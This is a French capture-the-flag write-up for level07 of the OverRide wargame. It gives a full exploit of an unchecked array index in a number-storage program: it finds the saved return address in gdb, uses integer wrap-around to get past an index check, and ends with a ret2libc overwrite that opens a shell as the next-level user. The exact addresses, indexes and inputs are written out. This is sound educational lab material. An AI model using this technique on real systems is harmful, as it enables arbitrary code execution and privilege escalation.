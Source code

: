 ## Level07

On observe que le binaire nous permet de stocker un nombre a un certain index, et d'afficher le contenu du tableau pour un index donné.

Lorsque qu'on entre un index qui est divisible par 3, nous obtenons un message d'erreur:

![image](https://user-images.githubusercontent.com/29956389/95601346-9bf4b100-0a53-11eb-8b10-d557af6084f4.png)

Le binaire éfface les argument passé, ainsi que l'environement, mais nous laisse avec une stack executable.

```
while (av[i] != 0)
{
	memset(av[i], 0, strlen(av[i]));
	i++;
}
i = 0;
while (env[i] != 0)
{
	memset(env[i], 0, strlen(env[i]));
	i++;
}
```

Une fois le code désassemblé, on observe que le tableau qui stocke les nombres a 100 index: `char	database[100];`, mais aucune vérification est faite sur l'index que nous donnons, nous pouvons donc en theorie écrire ou nous voulons.

On peut donc en theorie réécrire l'eip pour qu'il pointe sur du shellcode stocké dans le tableau.

Avec la structure du code, on tente donc de trouver l'eip stocké lors de l'appel a main:

```
level07@OverRide:~$ gdb -q ./level07 
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) b *main
Breakpoint 1 at 0x8048723
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048723 in main ()
(gdb) i f
Stack level 0, frame at 0xffffd710:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd710
 Saved registers:
  eip at 0xffffd70c   <--- EIP
```

Maintenant il faut trouver l'adresse du tableau pour en dériver l'index que nous utiliserons pour réécrire l'eip:

Pour cela on peut directement afficher l'adresse `[esp+0x24]` a `main+110`, le problème est que gdb modifie les variables d'environement, ce qui entraine une variation dans les adresses de la stack. On aura donc bien du mal a trouver l'adresse lorsque nous somme pas dans GDB.

La solution ici, est d'utiliser la fonction `read_number` pour trouver la différence relative entre l'adresse effective du tableau, et l'adresse du tableau passé en argument a la fonction `read_number`: Cette différence ne changera pas lors d'ajout ou de retrait de variable d'environement.

Lors de l'appel a `read_number`, le tableau sera stocké a `ebp+0x8`: EBP est le debut de notre stackframe, `ebp+0x4` est l'eip enregistré, et `ebp+0x8` est le tableau logiquement.

```
(gdb) b *read_number+6
(gdb) r
[...]
(gdb) x $ebp+0x8
0xffffd520:     0xffffd544
```

`0xffffd520` est l'adresse pour l'argument de la fonction, et `0xffffd544` est l'adresse réélle du tableau.

```
(gdb) p 0xffffd544 - 0xffffd520
$2 = 36
(gdb) p 36 / 4  <-- 4 parce que tableau de int
$3 = 9
```

On obtiens l'index 9. `9 % 3 == 0` il faut donc contourner cette protection. Si nous prenons `-9`, on fait passer l'unsigned int a 4294956356 soit 0xFFFFD544: notre tableau.

Calculons maintenant l'offset entre le tableau et l'eip enregistré:

```
=> eip at 0xffffd70c
=> database is at 0xffffd544
[...]
(gdb) p 0xffffd70c - 0xffffd544
456
(gdb) p 456 / 4  <--- to int
114
```

L'offset est de 114, vérifions:

```
Breakpoint 1, 0x080486dd in read_number ()
(gdb) c
Continuing.
 Index: 114
 Number at data[114] is 4158936339  <-- eip ?
 Completed read command successfully
(gdb) p/x 4158936339
$10 = 0xf7e45513
(gdb) x 0xf7e45513
0xf7e45513 <__libc_start_main+243>:     0xe8240489
```

Problème: 114 est divisable par 3.

On obseve ceci a la fin de la fonction `store_number`:

```
// index = index << 2; 
// <+149>:   shl    eax,0x2
database[index << 2] = nbr;
```

Ce qui equivaut a multiplier l'index donné par 4, ceci nous permet de faire wrapper l'unsigned int et d'inserer une valeur a l'index 114:

On prend donc `(UINT_MAX / 4) + 114` soit  `4294967296 / 4 + 114` = `1,073,741,938`

Essayons:

```
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
[...]

Input command: store
 Number: 3735928559	(0xdeadbeef)
 Index: 1073741938	(0xffffd70c)
 Completed store command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()	<-- Nice
```

Stocker tout un shellcode dans un tableau qui bloque chaque troisème entrée est possible, mais long et fastidieux, car il faudrait entre chque instruction une par une, et calculer l'overflow de l'unsigned int pour contourner la protection.

Utilisons donc plutot une attaque ret2libc:
  - On sait que l'eip `0xffffd70c` est stocké a l'index+114 soit `1073741938`, c'est la qu'on écrira l'adresse du syscall `system`.
  - L'index + 115 est l'adresse retour, on peut y mettre l'adresse d'exit si on souhaite quitter le programme proprement.
  - L'index + 116 doit contenir notre string `/bin/sh`
  
Localisons ces addresses:

```
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system	<-- Ici
0xf7f48a50  svcerr_systemerr
(gdb) p 0xf7e6aed0
$11 = 4159090384	<-- En décimal pour le stockage

(gdb) info proc map
process 8082
Mapped address spaces:
[...]
Start Addr   End Addr       Size     Offset objfile
[...]
    0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
    0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
    0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
    0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
0xf7f897ec		<-- ici
1 pattern found.
(gdb) p 0xf7f897ec
$12 = 4160264172	<-- en décimal
```

Ce qui nous donne:

```
evel07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
[...]

Input command: store
 Number: 4159090384	<--- system()
 Index: 1073741938	<--- EIP
 Completed store command successfully
Input command: store
 Number: 4160264172	<--- "/bin/sh"
 Index: 116		<-- System(114) + ret_addr(115) + "/bin/sh"(116)
 Completed store command successfully
```

Et maintenant il ne reste plus qu'a pop l'eip enrégistré en quittant le main:

```
[...]
Input command: quit
$ whoami
level08
$ 
```



